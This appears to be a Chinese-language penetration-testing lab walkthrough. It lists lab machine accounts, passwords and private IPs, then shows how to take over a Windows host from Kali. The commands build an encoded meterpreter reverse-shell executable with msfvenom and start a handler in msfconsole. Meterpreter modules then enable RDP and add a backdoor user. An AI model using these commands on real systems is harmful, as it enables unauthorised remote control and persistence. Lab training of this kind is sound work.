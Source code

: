 ### 4号
账号:administrator
密码:Win@2003

ip：192.168.141.114

### 5号
账号：Administrator
密码：Win@2008

ip：192.168.141.115

### 6号
账号：Administrator
密码：Edvison233!

ip：192.168.141.116

# 使用kali拿下二号机
通过MobaXterm连接Kali Linux(ip:192.168.141.143)，用户名:root，密码:toor
![](https://upload-images.jianshu.io/upload_images/7216746-b086c475865a0199.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用下述命令，执行，生成木马文件:
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 LHOST=192.168.141.143 LPORT=4444 -f exe > ./test.exe
```
![](https://upload-images.jianshu.io/upload_images/7216746-a0be7e99c5810789.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

生成了test.exe之后，然后在kali里，设定端口监听，等待目标上线
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp;show options; set LHOST 192.168.141.143;set LPORT 4444; run"

```
![](https://upload-images.jianshu.io/upload_images/7216746-29d723f0db0c5d74.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在2号机上右击，以管理员权限执行。kali就可以接收到反弹回来的shell。对shell进行操作。

在kali里接收到了shell，可在meterpreter中管理shell，开启3389
![](https://upload-images.jianshu.io/upload_images/7216746-32d92423d0257169.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali里接收到了shell，可在meterpreter中管理shell，开启3389
```
run post/windows/manage/enable_rdp
```

添加用户
```
run post/windows/manage/enable_rdp username="Waldo1111test" password="123456hhhh."
```
